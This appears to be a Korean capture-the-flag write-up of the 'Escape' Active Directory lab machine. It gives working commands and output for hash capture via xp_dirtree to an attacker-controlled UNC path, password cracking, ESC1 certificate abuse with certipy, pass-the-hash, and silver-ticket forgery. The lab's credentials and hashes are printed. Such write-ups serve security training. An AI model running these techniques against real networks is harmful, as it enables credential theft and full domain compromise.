

**날짜:** 2023년 3월 20일 / 문서 번호 D22.100.230
**작성자:** amra
**머신 제작자:** Geiseric
**난이도:** 보통 (Medium)
**분류:** 공식 (Official)

### 개요 (Synopsis)
Escape는 게스트 권한으로 인증된 사용자가 민감한 PDF 파일을 다운로드할 수 있는 SMB 공유 폴더에서 시작하는 중간 난이도의 Windows Active Directory 머신이다. 이 PDF 파일 내부에는 머신에서 실행 중인 MSSQL 서비스에 접근할 수 있는 임시 자격 증명이 들어 있다. 공격자는 MSSQL 서비스가 공격자의 머신으로 인증을 시도하도록 강제하여 해시를 탈취할 수 있다. 이 서비스는 일반 사용자 계정 권한으로 실행되고 있으며 탈취한 해시는 크랙이 가능한 것으로 밝혀지지.

유효한 자격 증명을 얻은 공격자는 WinRM을 사용하여 머신에서 명령 실행 권한을 얻을 수 있다. 머신 내부를 열거하던 중, 로그 파일을 통해 `ryan.cooper` 사용자의 자격 증명을 발견하게 된다. 추가 열거를 통해 인증 기관(Certificate Authority)이 존재하며 하나의 인증서 템플릿이 ESC1 공격에 취약하다는 것을 알 수 있다. 즉, 이 템플릿을 사용할 권한이 있는 사용자는 도메인 관리자(Domain Administrators)를 포함해 도메인 내의 다른 어떤 사용자를 위한 인증서도 요청할 수 있다는 뜻이다. 따라서 ESC1 취약점을 악용하여 Administrator 계정의 유효한 인증서를 얻은 다음, 이를 사용하여 관리자 사용자의 해시를 획득할 수 있다.

### 요구 기술 (Skills Required)
* 열거 (Enumeration)
* Windows Active Directory
* Microsoft SQL Server

### 습득 기술 (Skills Learned)
* Kerberos 인증 (Kerberos Authentication)
* ESC1 공격 (ESC1 attack)
* NTLM 인증 (NTLM Authentication)


## 열거 (Enumeration)

### Nmap
```bash
ports=$(nmap -p- --min-rate=1000 -T4 -Pn TARGET_IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV TARGET_IP
```

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-21 19:01:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-03-21T19:03:15+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-time:
|   date: 2023-03-21T19:02:37
|   start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

초기 Nmap 출력을 보면 Active Directory를 사용하는 머신임을 알 수 있을 정도로 많은 포트가 열려 있다. 특히 포트 1433에서 MSSQL이 수신 대기 중인 것을 확인할 수 있다. 또한 Nmap 출력에 따르면 이 머신에는 두 개의 유효한 호스트 이름이 있다. 하나는 도메인을 나타내는 `sequel.htb`이고, 다른 하나는 도메인 컨트롤러를 나타낼 가능성이 높은 `dc.sequel.htb`다. 따라서 우리의 `hosts` 파일을 그에 맞게 수정해 줄게.

```bash
echo "TARGET_IP sequel.htb dc.sequel.htb" | sudo tee -a /etc/hosts
```

게다가 열려 있는 포트 중 상당수가 Kerberos 인증과 관련이 있다. 나중에 Kerberos 인증을 사용할 예정이라면, Nmap 결과에서 확인했듯이 로컬 머신과 원격 머신 사이에 약 8시간의 시간 차이가 있다는 점을 명심해야 한다. Kerberos는 시간 차이가 5분 이하일 때만 작동하기 때문이다.

### SMB
이 머신에는 웹사이트가 없으므로 SMB를 살펴보는 것으로 열거를 시작할 수 있다.

```bash
smbclient -L \\\\sequel.htb\\
```

```text
Password for [WORKGROUP\root]:

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Public          Disk      
SYSVOL          Disk      Logon server share
```

비밀번호를 물어볼 때 그냥 "Enter"를 누르면 공유 폴더 목록을 볼 수 있다. `Public`이라는 공유 폴더를 제외하고는 모두 아주 기본적인 공유 폴더들로 보인다. 이 `Public` 폴더에 접속할 수 있는지 확인한다.

```bash
smbclient \\\\sequel.htb\\public
```

```text
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 13:51:25 2022
  ..                                  D        0  Sat Nov 19 13:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 15:39:43 2022
```

이 공유 폴더에 접속할 수 있을 뿐만 아니라 내부 파일 목록도 볼 수 있다. `SQL Server Procedures.pdf`라는 PDF 파일을 발견했으니 `get` 명령을 사용하여 다운로드한다.

```bash
smb: \> get "SQL Server Procedures.pdf"
```

다운로드한 PDF의 내용 중 "Bonus" 섹션을 보면 다음과 같이 적혀 있다:

> For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with user PublicUser and password GuestUserCantWrite1
> Refer to the previous guidelines and make sure to switch the "Windows Authentication" to "SQL Server Authentication".

흥미롭게도, PDF 파일 내부에서 초기 열거 단계에서 보았던 MSSQL 인스턴스에 접근할 수 있는 자격 증명을 찾을 수 있다.

```bash
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```

```text
[*] Encryption required, switching to TLS
[*] ENVCHANGE (DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE (LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE (PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL>
```

---

## 초기 침투 (Foothold)

확인한 자격 증명을 사용하여 MSSQL 서버에 연결할 수 있다. 주변을 둘러봐도 딱히 흥미로운 것은 찾을 수 없다. 하지만 우리가 시도해 볼 수 있는 것은 SQL 서비스가 우리 머신으로 인증을 시도하도록 강제하고 해시를 가로채는 것이다. SQL 서비스가 사용자 계정 권한으로 실행 중이라면 탈취한 해시를 크랙할 수 있을 가능성이 높아.

우선, Responder를 설정한다.
```bash
responder -I tun0 -v
```

그런 다음 UNC(Universal Naming Convention) 경로를 사용하여 SQL에게 우리 머신에 있는 파일을 나열하도록 요청한다.
```sql
EXEC MASTER.sys.xp_dirtree '\\ATTACKER_IP\test', 1, 1
```

그러면 우리의 responder에서 `sql_svc` 사용자의 해시를 얻게 된다.
```text
[SMB] NTLMv2-SSP Client   : TARGET_IP
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:ade864a38b752b41:982B4210BBD8568A51B24CC0852ED2DF:01010000000000000076311E55CFDC01A5FA9D19C30A171400000000020008004300410051004E0001001E00570049004E002D00460037005A0037004E0042005900500033005700440004003400570049004E002D00460037005A0037004E004200590050003300570044002E004300410051004E002E004C004F00430041004C00030014004300410051004E002E004C004F00430041004C00050014004300410051004E002E004C004F00430041004C00070008000076311E55CFDC0106000400020000000800300030000000000000000000000000300000BFF5EB46F59F3A7578175F693B6C783071E022A984E0E734FEB2B99675E023310A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390036000000000000000000
```

다행히 `sql_svc`는 일반 사용자 계정인 것으로 보인다. 그러니 탈취한 해시를 `hash`라는 파일에 복사하고 `john`을 사용해 크랙을 시도한다.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```text
REGGIE1234ronnie (sql_svc)
```

해시가 성공적으로 크랙되었고 `sql_svc` 사용자의 평문 비밀번호인 `REGGIE1234ronnie`를 얻었어. 이제 WinRM을 통해 `sql_svc` 사용자로 인증을 시도한다. `evil-winrm`을 사용할 것이다.

```powershell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```

```text
*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami
sequel\sql_svc
```

---

## 수평적 권한 이동 (Lateral Movement)

성공적으로 `sql_svc` 사용자로 인증했지만, 아직 `user.txt` 플래그를 가져올 수는 없다. 시스템을 둘러보면 `Ryan.Cooper`라는 사용자가 있는 것을 볼 수 있다.

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\desktop> ls C:\users
```

```text
Directory: C:\users
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc
```

이 사용자가 사용자 플래그를 가지고 있을지도 몰라. 머신을 조금 더 열거해 보면 MSSQL 서비스의 로그 파일을 찾을 수 있다.
```powershell
*Evil-WinRM* PS C:\Users\sql_svc\desktop> type C:\sqlserver\Logs\ERRORLOG.bak
```

```text
<SNIP>
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
<SNIP>
```

로그를 보면 `ryan.cooper` 사용자가 `NuclearMosquito3`라는 비밀번호로 서비스에 인증을 시도했지만 자격 증명이 거부된 것으로 보인다. 사용자들이 여러 서비스에 걸쳐 비밀번호를 혼용하는 것은 드문 일이 아니다.
이를 염두에 두고 이 비밀번호를 사용해 WinRM을 통해 `ryan.cooper`로 인증을 시도한다.

```powershell
evil-winrm -i sequel.htb -u ryan.cooper -p NuclearMosquito3
```

```text
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper
```

`ryan.cooper` 사용자로 쉘을 얻었으며 사용자 플래그는 `C:\Users\Ryan.Cooper\Desktop\user.txt`에서 찾을 수 있다.

---

## 권한 상승 (Privilege Escalation)

이 시점에서 우리는 권한을 상승시킬 방법을 찾아야 한다. 초기 Nmap 스캔 출력 결과를 다시 살펴보면 인증서(certificate)와 관련된 출력이 많은 것을 볼 수 있다. 이는 인증 기관(Certificate Authority)이 실행 중이라는 강력한 징후다. `Certify`를 사용하여 Active Directory Certificate Services의 가능한 잘못된 구성(misconfiguration)을 열거할 수 있다.
*(참고: 저장소에 배포된 실행 파일이 없으므로 Visual Studio를 사용해 직접 빌드해야 할 수 있어.)*

https://github.com/ademkanat/Certify

빌드된 실행 파일을 evil-winrm에서 직접 업로드할 수 있다.
```powershell
upload Certify.exe
```

이제 가능한 인증 기관을 열거한다.
```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\music> .\Certify.exe cas
```

```text
Certify v1.1.0
[*] Action: Find certificate authorities
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'
[*] Root CAs
...
Enterprise CA Name            : sequel-DC-CA
DNS Hostname                  : dc.sequel.htb
...
Enabled Certificate Templates :
    UserAuthentication
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    SubCA
    Administrator
```

예상대로 원격 머신에 CA가 존재한다. 이제 `Certify`를 한 번 더 사용하여 취약한 인증서를 찾을 수 있다.
```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\music> .\Certify.exe find /vulnerable
```

```text
Certify v1.1.0
[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'
[*] Listing info about the Enterprise CA 'sequel-DC-CA'
<SNIP>
[!] Vulnerable Certificates Templates :
    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag           : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights                 : sequel\Domain Admins
                                            sequel\Domain Users
...
```

실제로 `UserAuthentication`이라는 취약한 템플릿이 존재한다는 것을 볼 수 있다. 특히 Authenticated Users(인증된 사용자)가 이 템플릿을 신청(enroll)할 수 있고, `MSPKI-Certificate-Name-Flag`가 존재하며 `ENROLLEE_SUPPLIES_SUBJECT`를 포함하고 있으므로 이 템플릿은 ESC1 시나리오에 취약하다.

기본적으로 이는 누구든 이 템플릿에 신청할 수 있으며 임의의 주체 대체 이름(Subject Alternative Name)을 지정할 수 있다는 것을 의미한다. 즉, 이 공격 경로를 악용하면 우리가 도메인 관리자(Domain Administrator)로 인증할 수 있게 된다는 것이다.
이를 악용하기 위해 `certipy`를 사용할 것이다.

```bash
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```

```text
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
*(참고: `The NETBIOS connection with the remote host timed out.` 에러가 발생하면 명령을 다시 실행해.)*

이제 관리자용 인증서를 얻었으므로 `certipy`를 한 번 더 사용하여 TGT(Ticket Granting Ticket)를 받고 이 사용자의 NT 해시를 추출할 수 있다. 이 단계는 Kerberos 상호 작용이 필요하므로 진행하기 전에 원격 머신의 시간과 시계를 동기화해야 한다.

```bash
sudo ntpdate -u dc.sequel.htb
```

이제 진행할 수 있다.

```text
certipy-ad auth -pfx administrator.pfx -dc-ip TARGET_IP                        
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

마지막으로, WinRM을 통해 Pass the Hash를 수행하여 관리자 사용자로 인증할 수 있다.

```bash
evil-winrm -i sequel.htb -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

```text
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

루트 플래그는 `C:\Users\Administrator\Desktop\root.txt`에서 찾을 수 있다.

---

### 대안 솔루션 (Alternative Solution)

이 머신의 설정 방식을 이용하면 또 다른 흥미로운 방법으로 풀 수도 있다. 보다 구체적으로 이 대안적인 접근 방식을 사용하려면 적어도 `sql_svc` 사용자의 평문 비밀번호를 확보한 상태여야 한다.
이 단계는 매우 중요한데, 왜냐하면 이 사용자 계정이 MSSQL 서비스를 실행하고 있어서 이 서비스에 접근하기 위한 티켓이 `sql_svc` 사용자의 비밀번호로 암호화되기 때문이다.

Silver Ticket 공격의 논리를 따르면 Administrator 사용자를 대신하여 MSSQL 서비스에 접근하기 위한 티켓을 조작(forge)할 수 있어야 한다. 아쉽게도 이 서비스 인스턴스에 설정된 SPN(Service Principal Name)이 없기 때문에 Kerberos가 유효한 서비스 티켓을 생성해 줄 수 없고, 따라서 조작할 티켓이 없는 상태다.

이럴 때 impacket의 `ticketer`를 사용할 수 있다. 이 스크립트는 티켓 생성을 로컬에서 수행하기 때문에 원격 머신의 Kerberos에 연결해 서비스 티켓을 요청할 필요가 없다는 장점이 있다. 또한, 제시된 티켓을 검증하는 책임은 Kerberos가 아니라 해당 서비스에 있다는 점을 명심해야 한다. 따라서 Kerberos가 MSSQL이 `sql_svc` 권한으로 실행되고 있다는 사실을 모르더라도 우리가 로컬에서 Administrator 사용자에 대한 유효한 티켓을 만들어내기만 한다면, 이 사용자로 해당 서비스에 접근할 수 있어야 한다.

가장 먼저 도메인 SID를 알아내야 한다. `sql_svc` 사용자에 대한 유효한 자격 증명이 있으므로 이를 얻을 방법은 많지만 가장 쉬운 방법은 WinRM을 이용하는 것이다.

```powershell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-LocalUser -Name $env:USERNAME | Select sid

SID
---
S-1-5-21-4078382237-1492182817-2568127209-1106
```

사용자의 SID를 얻었어. 도메인 SID는 사용자의 SID에서 마지막 부분만 뺀 것이다. 즉:
`S-1-5-21-4078382237-1492182817-2568127209`

https://codebeautify.org/ntlm-hash-generator

티켓을 만들기 전에 `sql_svc` 사용자의 비밀번호에 대한 NT 해시를 구해야 한다. 온라인 툴을 사용하여 이 단계를 진행할 수 있다.
(해시 값: `1443EC19DA4DAC4FFC953BCA1B57B4CF`)

유효한 티켓을 생성하려면 `spn` 파라미터가 필요하지만, 애초에 설정되어 있지 않기 때문에 우리가 원하는 아무 값이나 입력해도 된다.
예: `nonexistent/DC.SEQUEL.HTB`

이제 MSSQL 서비스를 위한 티켓을 만들 수 있다.
*(참고: 이 단계와 다음 단계들이 제대로 작동하려면 `sudo ntpdate -u dc.sequel.htb`를 실행하여 시계를 DC와 동기화해야 해.)*

```bash
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn nonexistent/DC.SEQUEL.HTB Administrator
```

```text
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

이제 티켓을 내보내고(export) Kerberos 인증을 사용하여 서비스에 인증한다.

```bash
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k dc.sequel.htb
```

```text
[*] Encryption required, switching to TLS
[*] ENVCHANGE (DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE (LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE (PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL> SELECT SYSTEM_USER;
sequel\Administrator
```

이제 다음 쿼리를 사용해 `user.txt`와 `root.txt`를 읽을 수 있다.

```sql
SELECT * FROM OPENROWSET (BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS Contents
SELECT * FROM OPENROWSET (BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
```

